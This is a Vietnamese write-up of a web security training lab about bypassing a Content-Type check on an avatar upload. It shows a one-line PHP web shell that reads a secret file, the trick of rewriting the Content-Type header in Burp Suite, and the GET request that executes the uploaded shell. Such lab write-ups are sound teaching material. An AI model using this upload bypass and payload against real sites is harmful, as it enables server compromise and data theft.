

# Lab: Web shell upload via Content-Type restriction bypass

> Phòng lab này chứa lỗ hổng file upload trong phần upload avatar. Nó ngăn người dùng tải lên các loại tệp không mong muốn, nhưng dựa vào việc kiểm tra thông tin đầu vào do người dùng kiểm soát để xác minh điều này
> 
> Để giải quyết phòng lab, hãy tải lên một web shell PHP cơ bản và sử dụng nó để lấy nội dung của file mật `/home/carlos/secret`. Gửi nội dung lấy được bằng nút **Submit**
>
> Hãy đăng nhập vào account `wiener:peter` để upload avatar

Thử upload file exploit.php với nội dung 
> `<?php echo  file_get_contents('/home/carlos/secret'); ?>`

thì trang web trả về phản hồi 
`Sorry, file type application/octet-stream is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.`

Vậy là đầu vào được giới hạn chỉ nhận file ảnh. Mình có thể can thiệp vào quá trình tải file lên bằng cách bắt request bằng burp suite và chuyển sang tab repeater để thực hiện.

>

Ở đây có thể thấy được thông tin, loại file mà mình đã tải lên. Lúc này mình can thiệp vào nó bằng cách sửa `Content-Type` thành loại file được cho phép là `image/jpeg` hoặc `image/png` và **Send** thì thấy phản hồi upload thành công.

Lúc này thì sử dụng request GET mở file .php đã upload để thực thi code `GET /files/avatars/exploit/php HTTP/1.1` và có được secret 